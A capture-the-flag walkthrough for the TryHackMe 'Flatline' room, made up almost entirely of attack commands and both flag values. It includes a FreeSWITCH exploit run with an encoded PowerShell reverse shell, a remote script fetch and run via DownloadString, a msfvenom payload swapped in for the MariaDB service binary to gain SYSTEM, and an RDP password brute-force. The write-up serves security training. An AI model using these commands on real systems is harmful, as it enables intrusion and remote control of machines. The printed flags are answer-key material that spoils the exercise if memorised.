

# Flatline


https://tryhackme.com/room/flatline




## Task 1 Flags

#### What is the user.txt flag?

```bash
rustscan -a 10.10.118.67 -- -n -sVC
nmap -n -Pn -sVC -p3389,8021 10.10.118.67
```


```bash
searchsploit freeswitch
searchsploit -m 47799
```


```bash
python3 47799.txt 10.10.118.67 whoami
python3 47799.txt 10.10.118.67 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4ANgAuADkALgAxADcANgAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='
```


```bash
nc -nvlp 4444
cat C:\Users\Nekrotic\Desktop\user.txt
```



`THM{64bca0843d535fa73eecdc59d27cbe26}`


#### <mark style="color:red;">What is the root.txt flag?</mark>

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -P /var/www/html
python3 47799.txt 10.10.210.200 "powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.9.176/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.9.176 -Port 4444"
```


```bash
nc -nvlp 4444
PS > ls C:\projects
```


```bash
searchsploit openclinic
searchsploit -m 50448
cat 50448
```


```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.9.176 LPORT=4242 \
         -f exe > /var/www/html/mysqld_evil.exe
```


```bash
PS > curl http://10.6.9.176/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"
PS > cd C:\projects\openclinic\mariadb\bin
PS > mv mysqld.exe mysqld.bak
PS > mv mysqld_evil.exe mysqld.exe
PS > shutdown -r -f -t 0
```


```bash
msfconsole -q
msf > use exploit/multi/handler
msf > set payload windows/shell_reverse_tcp
msf > set LHOST 10.6.9.176
msf > run
```


```bash
whoami
type C:\Users\Nekrotic\Desktop\root.txt
```



`THM{8c8bc5558f0f3f8060d00ca231a9fb5e}`


## Reference







#### crowbar

```bash
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > rockyou_utf8.txt 
crowbar -b rdp -u nekrotic -C rockyou_utf8.txt -s 10.10.118.67/32
```
